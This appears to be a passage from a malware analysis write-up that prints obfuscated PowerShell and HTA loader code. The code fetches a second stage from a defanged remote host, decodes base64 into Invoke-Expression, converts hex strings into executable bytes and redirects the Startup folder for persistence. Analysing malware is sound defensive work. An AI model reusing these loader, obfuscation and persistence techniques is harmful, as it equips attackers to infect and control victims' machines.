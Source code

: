 ```powershell
<script language=javascript>document.write(unescape('%3Cscript%20language%3D%22VBScript%22%3E%0AFunction%20var_func%28%29%0AHB%20%3D%20replace%28%22pow%28-_-%29rsh%28-_-%29ll%20%22%2C%22%28-_-%29%22%2C%22e%22%29%0AHBB%20%3D%20%22%24@@@x%20%3D%20%27hxxp://135.148.74[.]241/S_B.txt%27%3B%24@@@...self.close%0A%3C/script%3E'))</script>
'@
Set-Content -Path C:\ProgramData\3814364655181379114711\3814364655181379114711.HTA -Value $FFF

start-sleep -s 3

$Hx = 'hxxp://135.148.74[.]241/S_B.txt';
$HB=('{2}{0}{1}' -f'---------l---------o---------a---------d---------'...'')|InVokE-ExpresSioN
```

```powershell
[system.io.directory]::CreateDirectory($HHxHH)
start-sleep -s 5
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Startup" -Value $HHHxHHH;
```

## Decoding S_B.txt PowerShell

```powershell
$HH1 = '4D5A9::::3 ... ::::::::::::::::::::::'.Replace(":","0")
[String]$H4='4D5A9::::3 ... :::::'.Replace(":","0")

FUNCTION VIP($9467422421889788552276)
{
    $8398517835117813353988 = "Get1859655144789612381153ng".Replace("1859655144789612381153","Stri");
    $4699715146936475627384 = [Text.Encoding];$7899832798818496373215 = "U76241165786257964469388".Replace("7624116578625796446938","tf")
    $5654519196338572648864 = "Fr"+"omBa"+"se6"+"4Str"+"ing"
    $1436688125918197238672 = $4699715146936475627384::$7899832798818496373215.$8398517835117813353988([Convert]::$5654519196338572648864($9467422421889788552276))
    return $1436688125918197238672
}

$AAAAASXXX = '5961151185971873545969W15961151185971 ... 185971873545969nKXx5961151185971873545969JYEV5961151185971873545969gWA5961151185971873545969=5961151185971873545969=5961151185971873545969'.Replace("5961151185971873545969","")
$AAAAASXXXX = VIP($AAAAASXXX);
IEX $AAAAASXXXX
```

```powershell
[String]$H1= $HH1
Function H2 {
 
    [CmdletBinding()]
    [OutputType([byte[]])]
    param(
        [Parameter(Mandatory=$true)] [String]$HBAR
    )
    $H3 = New-Object -TypeName byte[] -ArgumentList ($HBAR.Length / 2)
    for ($i = 0; $i -lt $HBAR.Length; $i += 2) {
        $H3[$i / 2] = [Convert]::ToByte($HBAR.Substring($i, 2), 16)
    }

    return [byte[]]$H3
}


[Byte[]]$H5=H2 $H4
[Byte[]]$H6= H2 $H1
```